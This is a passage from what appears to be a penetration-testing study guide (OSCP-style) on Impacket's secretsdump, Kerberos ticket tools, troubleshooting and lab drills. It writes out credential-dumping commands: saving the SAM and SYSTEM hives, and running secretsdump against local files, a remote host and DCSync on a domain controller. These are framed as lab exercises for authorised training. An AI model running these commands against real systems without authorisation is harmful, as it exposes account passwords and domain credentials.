{ loading=lazy }

## 11. secretsdump — three different tasks { #secretsdump }

**A. Offline SAM:** SYSTEM and SAM hives from the same Windows installation. **B. Remote member host:** appropriate remote admin rights; Remote Registry/SMB/service access can matter. **C. DCSync:** domain replication rights on the DC; local admin on a workstation is not enough.

```bash
# A: On the lab Windows host, in an elevated cmd shell:
# reg save HKLM\SAM C:\Windows\Temp\sam.save
# reg save HKLM\SYSTEM C:\Windows\Temp\system.save
# Transfer these lab artifacts to Kali, then:
impacket-secretsdump -sam loot/sam.save -system loot/system.save LOCAL
# B: Remote member-host secrets (requires suitable remote admin access):
# impacket-secretsdump "$LAB_DOMAIN/adminuser@$LAB_HOST" -outputfile loot/ms01
# C: A confirmed replication-capable account, one selected lab user:
# impacket-secretsdump "$LAB_DOMAIN/replicator@$LAB_DC_FQDN" #   -dc-ip "$LAB_DC" -just-dc-user labadmin -outputfile loot/dc-selected
```

**Read:** SAM entries are `user:RID:LM:NT:::`; the NT field is the fourth colon-separated field. A remote dump can also contain cached domain credentials, LSA secrets and Kerberos keys—these are different formats and cannot all be passed as NT hashes. `-just-dc-user` narrows DRSUAPI extraction; it does not grant replication rights. `LOCAL` means parse local files, not authenticate as a local account. Pair the SYSTEM hive with the correct SAM; a text `.reg` export is not a substitute. Protect and remove lab hive copies after the exercise.

{ loading=lazy }

## 12. getTGT, getST and ticketConverter { #kerberos }

**Start with ordinary ticket use.** A TGT authenticates you to the KDC so you can request service tickets. A service ticket is for an SPN such as `cifs/ms01.training.test`. DNS identity, realm, clock and ticket lifetime all matter. Obtaining a ticket does not add group memberships.

```bash
impacket-getTGT "$LAB_DOMAIN/$LAB_USER" -dc-ip "$LAB_DC"
export KRB5CCNAME="$PWD/$LAB_USER.ccache"
impacket-smbclient -k -no-pass -dc-ip "$LAB_DC"   "$LAB_DOMAIN/$LAB_USER@$LAB_HOST_FQDN"
# Request a normal service ticket for the SAME authenticated identity:
# impacket-getST "$LAB_DOMAIN/$LAB_USER" -k -no-pass -dc-ip "$LAB_DC" #   -spn "cifs/$LAB_HOST_FQDN"
# Convert a lab ticket format, without changing its rights:
# impacket-ticketConverter learner.kirbi learner.ccache
# Inspect the output filename and select that exact cache if changing tickets:
# export KRB5CCNAME="$PWD/<actual-output-filename>.ccache"
unset KRB5CCNAME
```

`-k` enables Kerberos; `-no-pass` prevents falling back to a password prompt. A cache contains credentials for its own identity, not whichever username you wish to type. Use an FQDN matching the service/SPN; an IP alone commonly breaks the name association. `getST -impersonate` is a separate delegation workflow that requires a proven delegation relationship and appropriate account rights. Do not append it to ordinary ticket requests as a generic escalation. `ticketConverter` changes container format, not identity, validity or permissions.

{ loading=lazy }

{ loading=lazy }

{ loading=lazy }

## 13. Troubleshoot in this order { #troubleshooting }

| Symptom | First check | Then do |
|---|---|---|
| `command not found` / import error | Kali prefix vs `.py`; interpreter and version | Repair the isolated install; do not change target settings |
| TCP timeout | `ip route get <IP>`, port reachability, pivot session | Restore the route/listener; do not keep changing passwords |
| `STATUS_LOGON_FAILURE` | Username, domain vs local account, password quoting, hash format | Make one corrected validation attempt; check lockout policy |
| `STATUS_ACCESS_DENIED` | Login may be valid but rights insufficient | Confirm share/SCM/WMI/WinRM rights separately |
| `KRB_AP_ERR_SKEW` | VM/DC clock difference | Compare time and synchronise the lab VM appropriately |
| `KDC_ERR_S_PRINCIPAL_UNKNOWN` | Target FQDN and SPN, correct realm | Resolve the service name; request the correct SPN |
| `KDC_ERR_C_PRINCIPAL_UNKNOWN` | Client username and realm | Correct identity; do not assume a password error |
| Empty roast file | Eligible account, request flag, LDAP/KDC errors | Inspect output; use another evidence-backed path |
| WMI shell starts, no command output | SMB 445/admin share access and command path | Use full paths; compare another permitted execution method |
| DRSUAPI denied | Replication rights and DC target | Return to the proven ACL/credential path; no flag can grant the right |

## 14. Mastery drills { #mastery }

- [ ] Explain the target grammar without looking at a command.
- [ ] Read a share, download one file, and compare SHA-256 in the [loopback lab](labs/tool-practice.md).
- [ ] Explain why a NetNTLMv2 response cannot be supplied as `-hashes`.
- [ ] Enumerate SPNs, request one lab account's TGS and choose the hash mode from its prefix.
- [ ] Distinguish AS-REP eligibility from an invalid username.
- [ ] Query SQL identity/roles before attempting any OS execution.
- [ ] Predict why SMB login can work while `psexec` fails.
- [ ] Explain workstation SAM versus DCSync, and the right each needs.
- [ ] Use a TGT cache with a matching service hostname; deliberately diagnose one DNS/clock error.
- [ ] Capture target identity, IP, original-location proof and reproducible commands for a mock report.

## References { #references }

- [Fortra Impacket source and installation](https://github.com/fortra/impacket)
- [Pinned 0.13.1 example scripts](https://github.com/fortra/impacket/tree/impacket_0_13_1/examples) — parser/source reference for these examples
- [Kali Impacket script command help](https://www.kali.org/tools/impacket-scripts/)
- [OffSec OSCP+ Exam Guide](https://help.offsec.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide)
- [Practical guide](practical-guide.md) · [AD workflows](active-directory.md) · [Password formats](password-attacks.md) · [Pivoting](pivoting.md)
